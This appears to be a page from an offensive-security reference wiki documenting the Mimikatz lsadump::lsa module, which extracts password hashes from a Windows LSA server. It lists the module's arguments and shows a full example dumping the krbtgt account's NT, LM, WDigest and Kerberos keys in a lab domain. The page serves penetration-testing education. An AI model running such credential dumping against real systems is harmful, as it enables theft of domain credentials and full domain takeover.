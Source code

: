 # lsa

It extracts hashes from memory by asking the LSA server. The `patch` or `inject` takes place on the fly. It has the following command line arguments:

* `/name` or `/user` : the target user account
* `/id` : the Relative Identifier for the target account (500 for Administrator)
* `/patch` : Only dumps the LM and NT password hashes
* `/inject` : when run on a workstation, it will dump the LM and NT password hashes. When run on domain controller is will dump LM, NT, Wdigest, Kerberos keys and password history.

{% hint style="info" %}
LM and NT hashes are used to authenticate accounts using the NTLM protocol. These hashes are often called NTLM hash and many documentations, resources, blogpost and tools mix terms. In this case, "NTLM" refers to the NT hash.

([more information](https://www.thehacker.recipes/ad/movement/ntlm))
{% endhint %}

{% hint style="warning" %}
This command requires elevated privileges (by previously running [privilege::debug](https://tools.thehacker.recipes/mimikatz/modules/privilege/debug) or by executing Mimikatz as the `NT-AUTHORITY\SYSTEM` account).
{% endhint %}

```
mimikatz # lsadump::lsa /inject /name:krbtgt
Domain : hacklab / S-1-5-21-2725560159-1428537199-2260736313

RID  : 000001f6 (502)
User : krbtgt

 * Primary
    NTLM : b5348d0a20a24a67ff544146a09cd292
    LM   :
  Hash NTLM: b5348d0a20a24a67ff544146a09cd292
    ntlm- 0: b5348d0a20a24a67ff544146a09cd292
    lm  - 0: 90e43747fb3e2459bc0fbd4c64a48ab4

 * WDigest
    01  96336fb9042f4823a864a9a9ea953d92
    02  f02b41fe320a26b54de6278bf432ea6b
    03  c4d6aef8b8382e686fdf2d8bb9ed4325
    04  96336fb9042f4823a864a9a9ea953d92
    05  f02b41fe320a26b54de6278bf432ea6b
    06  6db8e37630a2ccb50d640b7e0575a75d
    07  96336fb9042f4823a864a9a9ea953d92
    08  eca32a7c67f70dcd78116b548428644a
    09  eca32a7c67f70dcd78116b548428644a
    10  65ff3b022e3c992e06672a9013e9e375
    11  2faee2bbb7f3ce7eea4da160314992c1
    12  eca32a7c67f70dcd78116b548428644a
    13  8208f726be15c605b1d9531b3f6ceb68
    14  2faee2bbb7f3ce7eea4da160314992c1
    15  4097da3573ce0e22b396f673cb338223
    16  4097da3573ce0e22b396f673cb338223
    17  fa880afaaeb637fafed4121f58ae1c0e
    18  20ad95aaa3a05e5bb731bfefbd7ee823
    19  d46bc56e4021f6410468193dc7d05e58
    20  4d01f91984530f183381bdf5f0605f63
    21  1b415947d31439c2e59ecb8a0cd3daeb
    22  1b415947d31439c2e59ecb8a0cd3daeb
    23  0c54e140ce4d3af2150f66672338f6f3
    24  12f6af7e274f18cc1299f792f81610f8
    25  12f6af7e274f18cc1299f792f81610f8
    26  b68781315989472c4536e52359a0c999
    27  293f6790b0e67296db60f201ef15d75b
    28  18b300eeed3faeb12fe39754ec4537ef
    29  b00feb2fe6a6218228116b62612d6946

 * Kerberos
    Default Salt : HACKLAB.LOCALkrbtgt
    Credentials
      des_cbc_md5       : 97ec73858998ae68

 * Kerberos-Newer-Keys
    Default Salt : HACKLAB.LOCALkrbtgt
    Default Iterations : 4096
    Credentials
      aes256_hmac       (4096) : 3ab45a59d37a5a647e0d7d9d942d0e8b77911cff0bd95b16e203cd9503ccdd96
      aes128_hmac       (4096) : 3c8fc2890213fb9be3d6fb139b1be881
      des_cbc_md5       (4096) : 97ec73858998ae68

 * NTLM-Strong-NTOWF
    Random Value : 48d7d89c1608b83db8c568251f8b810f
```
